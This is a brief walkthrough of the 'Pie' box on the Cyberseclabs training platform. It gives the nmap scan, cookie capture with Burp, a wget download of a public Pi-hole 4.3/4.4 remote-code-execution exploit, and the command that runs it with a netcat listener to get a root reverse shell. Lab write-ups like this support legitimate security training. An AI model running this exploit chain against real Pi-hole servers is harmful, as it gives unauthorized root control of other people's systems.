









In this walkthrough, we'll go over a beginner level box called ***Pie*** on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).



Let's start the scanning process with nmap:
```bash
nmap -A -T4 -p- 172.31.1.26
```


We can see that the port 80 is open. Upon visiting, we can see that "Pi-hole" is installed:


One thing we can notice is that there is a link to the admin portal. When we click on it, it takes us to the admin portal and we see that the version is ***4.3***:



A quick Google search reveals the following exploit [Pie-Hole Exploit](https://packetstormsecurity.com/files/157624/Pi-hole-4.4-Remote-Code-Execution-Privilege-Escalation.html). However, this exploit requires a valid cookie.
Let's send the request to Burp and grab the cookie:


We can download the exploit with `wget https://packetstormsecurity.com/files/download/157624/pihole44-execescalate.txt -O exp.py`. Now, let's start a nc listener and run the exploit as follows `python3 exp.py v0ddvbre7i62naseikne4ni6j1 http://172.31.1.26 10.10.0.18 5555`



We should receive a shell back as root user:



[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
